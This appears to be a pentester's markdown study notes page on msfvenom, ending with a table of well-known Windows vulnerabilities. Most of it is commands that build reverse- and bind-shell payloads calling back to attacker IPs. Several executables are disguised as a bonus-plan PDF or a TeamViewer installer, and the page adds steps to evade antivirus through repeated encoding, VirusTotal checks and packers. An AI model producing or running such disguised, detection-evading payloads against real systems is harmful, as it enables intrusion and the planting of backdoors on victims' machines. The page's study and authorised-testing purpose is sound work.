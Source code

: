 ```yaml
---
title: msfvenom
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - terminal
  - shells
---
```


# msfvenom

MSFVenom is the successor of MSFPayload and MSFEncode, two stand-alone scripts that used to work in conjunction with msfconsole to provide users with highly customizable and hard-to-detect payloads for their exploits.

You can generate a webshell by using  msfvenom

```bash
# List payloads
msfvenom --list payloads | grep x64 | grep linux | grep reverse  

# list all the available payloads
msfvenom -l payloads  
```

Also msfvenom can use metasploit payloads under “cmd/unix”  to generate one-liner bind or reverse shells. List options with:

```bash
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
```



## Some flags

```bash
# -b, or --bad-chars: The list of characters to avoid example: '0'

```

## Single  payload
`Singles` are self-contained payloads. Some exploits will not support the resulting size of these payloads as they can get quite large.

## Staged payload

```bash
# Example of a linux staged payload
msfvenom -p linux/x64/shell/reverse_tcp lhost=192.66.166.2 lport=443 -f elf -o newfile

# Example of a windows staged payload
msfvenom -p windows/x64/meterpreter/bind_tcp lhost=10.10.14.72 lport=1234 -f aspx -o lal
```


After that

```bash
chmod +x newfile 
```

When creating a staged payload, you will need to use a metasploit handler (exploit/multi/handler) in order to receive the shell connection as only metasploit contains proper logic that will send the rest of the payload to the connector . In that case, the metasploit payload has to be the same one as the MSFVenom one.

## Stagedless payload

A stage less payload is a standalone program that does not need anything adittional (no metasploit connection), just the netcat listener on the computer.

```bash
# Example of a windows stageless payload
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```

If the AV was disabled all the user would need to do is double click on the file to execute and we would have a shell session.


## crafting a DLL file with a webshell

The `Meterpreter` payload is a specific type of multi-faceted payload that uses `DLL injection` to ensure the connection to the victim host is stable, hard to detect by simple checks, and persistent across reboots or system changes.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IPAttacker> LPORT=<4444> -a x86 -f dll > SECUR32.dll
# -p: for the chosen payload
# -a: architecture in the victim machine/application
# -f: format for the output file

```
[More about DLL highjacking in thick client applications](thick-applications/tca-attacking-thick-clients-applications.md#how-is-dll-hijacking-perform).


### crafting a .exe file with Shikata Ga Nai encoder

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=$ip LPORT=$port -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
# -e: chosen encoder 


```

Shikata Ga Nai encoder will be most likely detected by AV and IDS/IPS. One better option would be to try running it through multiple iterations of the same Encoding scheme:

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=$ip LPORT=$port -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe
```

But, still, we could be getting detected.


## Module msf-virustotal

 Alternatively, Metasploit offers a tool called msf-virustotal that we can use with an API key to analyze our payloads. However, this requires free registration on VirusTotal.
 
```bash
msf-virustotal -k <API key> -f TeamViewerInstall.exe
```


## Packers

The term `Packer` refers to the result of an `executable compression` process where the payload is packed together with an executable program and with the decompression code in one single file. When run, the decompression code returns the backdoored executable to its original state, allowing for yet another layer of protection against file scanning mechanisms on target hosts. This process takes place transparently for the compressed executable to be run the same way as the original executable while retaining all of the original functionality. In addition, msfvenom provides the ability to compress and change the file structure of a backdoored executable and encrypt the underlying process structure.

A list of popular packer software:

| | | |
|---|---|---|
|[UPX packer](https://upx.github.io)|[The Enigma Protector](https://enigmaprotector.com)|[MPRESS](https://www.matcode.com/mpress.htm)|
|Alternate EXE Packer|ExeStealth|Morphine|
|MEW|Themida||

If we want to learn more about packers, please check out the [PolyPack project](https://jon.oberheide.org/files/woot09-polypack.pdf).


## Mitical attacks

|**Vulnerability**|**Description**|
|---|---|
|`MS08-067`|MS08-067 was a critical patch pushed out to many different Windows revisions due to an SMB flaw. This flaw made it extremely easy to infiltrate a Windows host. It was so efficient that the Conficker worm was using it to infect every vulnerable host it came across. Even Stuxnet took advantage of this vulnerability.|
|`Eternal Blue`|MS17-010 is an exploit leaked in the Shadow Brokers dump from the NSA. This exploit was most notably used in the WannaCry ransomware and NotPetya cyber attacks. This attack took advantage of a flaw in the SMB v1 protocol allowing for code execution. EternalBlue is believed to have infected upwards of 200,000 hosts just in 2017 and is still a common way to find access into a vulnerable Windows host.|
|`PrintNightmare`|A remote code execution vulnerability in the Windows Print Spooler. With valid credentials for that host or a low privilege shell, you can install a printer, add a driver that runs for you, and grants you system-level access to the host. This vulnerability has been ravaging companies through 2021. 0xdf wrote an awesome post on it [here](https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html).|
|`BlueKeep`|CVE 2019-0708 is a vulnerability in Microsoft's RDP protocol that allows for Remote Code Execution. This vulnerability took advantage of a miss-called channel to gain code execution, affecting every Windows revision from Windows 2000 to Server 2008 R2.|
|`Sigred`|CVE 2020-1350 utilized a flaw in how DNS reads SIG resource records. It is a bit more complicated than the other exploits on this list, but if done correctly, it will give the attacker Domain Admin privileges since it will affect the domain's DNS server which is commonly the primary Domain Controller.|
|`SeriousSam`|CVE 2021-36924 exploits an issue with the way Windows handles permission on the `C:\Windows\system32\config` folder. Before fixing the issue, non-elevated users have access to the SAM database, among other files. This is not a huge issue since the files can't be accessed while in use by the pc, but this gets dangerous when looking at volume shadow copy backups. These same privilege mistakes exist on the backup files as well, allowing an attacker to read the SAM database, dumping credentials.|
|`Zerologon`|CVE 2020-1472 is a critical vulnerability that exploits a cryptographic flaw in Microsoft’s Active Directory Netlogon Remote Protocol (MS-NRPC). It allows users to log on to servers using NT LAN Manager (NTLM) and even send account changes via the protocol. The attack can be a bit complex, but it is trivial to execute since an attacker would have to make around 256 guesses at a computer account password before finding what they need. This can happen in a matter of a few seconds.|

